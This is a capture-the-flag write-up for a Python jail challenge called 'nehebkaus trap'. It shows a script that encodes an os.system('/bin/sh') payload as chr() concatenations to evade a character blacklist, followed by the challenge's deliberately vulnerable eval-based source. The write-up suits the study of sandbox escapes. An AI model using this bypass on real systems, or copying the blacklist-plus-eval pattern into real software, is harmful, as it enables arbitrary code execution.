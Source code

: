 ## MISC - nehebkaus trap

In this challenge we had to deal with a `pyjail`.

I first entered a lot of single characters to provoke different error messages.

The application has blacklisted some characters which we cannot use without further ado.

Some characters that play a role in the programming language were allowed, such as the brackets `()`,
or `+`,`-`,`*`.

![Screenshot0](./screenshots/0.png)

I looked further to see if we could also use [builtin](https://www.w3schools.com/python/python_ref_functions.asp) functions.

![Screenshot1](./screenshots/1.png)

Interesting, we can use `eval()` and `exec()`.

Furthermore, we can also use the `chr()` builtin function.

# Solution

Now the solution came to my mind quite fast.

We take the `eval()` function and pass it a concatenation of `chr()` functions with the charcodes of the characters and form our bypass.

We use the `+` character for the concatenation.

A few lines of Python help us to create the bypass.

```python3
code = "__import__('os').system('/bin/sh')"
bypass = ""

for char in code:
    bypass += 'chr(' + str(ord(char)) + ')' + '+'

print(bypass[:-1])
```

Flag:

![Screenshot2](./screenshots/2.png)

# Challenge Code

```python3
!/usr/bin/env python3                                                                                                                       
import sys                                                                                                                                   
import time                                                                                                                                  
                                                                                                                                             
BLACKLIST = ('.', '_', '/', '"', ';', ' ', "'", ',')                                                                                         
                                                                                                                                             
class Color:                                                                                                                                 
  WHITE = '\033[37m'                                                                                                                         
  RED = '\033[31m'                                                                                                                           
  BLUE = '\033[94m'                                                                                                                          
  GREEN = '\033[92m'                                                                                                                         
  BOLD = '\033[1m'                                                                                                                           
                                                                                                                                             
def _print(s):                                                                                                                               
  for c in list(s):                                                                                                                          
    sys.stdout.write(c)                                                                                                                      
    sys.stdout.flush()                                                                                                                       
    time.sleep(0.015)                                                                                                                        
                                                                                                                                             
def banner():                                                                                                                                
  print(f'{Color.RED}{Color.BOLD}'                                                                                                           
        '    __\n'                                                                                                                           
        '   {00}\n'                                                                                                                          
        '   \__/\n'                                                                                                                          
        '   /^/\n'                                                                                                                           
        '  ( (\n'                                                                             
        '   \_\_____\n'                                                                       
        '   (_______)\n'                                                                      
        '  (_________()Ooo.')                                                                 
                                                                                              
  _print(f'{Color.BLUE}\n'                                                                    
         "[ Nehebkau's Trap ]\n"                                                              
         f'{Color.WHITE}\n'                                                                   
         'You are trapped!\n'                                                                 
         'Can you escape?\n')                                                                 
                                                                                              
def loop():                                                                                   
  inp = input('> ')                                                                           
  banned = [c for c in BLACKLIST if c in inp]                                                 
  if len(banned):                                                                             
    print(f'\n{Color.RED}[!] Blacklisted character(s): {banned}{Color.WHITE}\n')              
    return                                                                                    
  print('\n[*] Input accepted!\n')                                                            
  try: eval(inp)                                                                              
  except Exception as e: print(f'Error: {e}\n')                                               
                                                                                              
if __name__ == '__main__':                                                                    
  banner()                                                                                    
  for _ in range(10): loop()                                                                  
  print(f'{Color.RED}[!] The walls crush you!') 
  ```



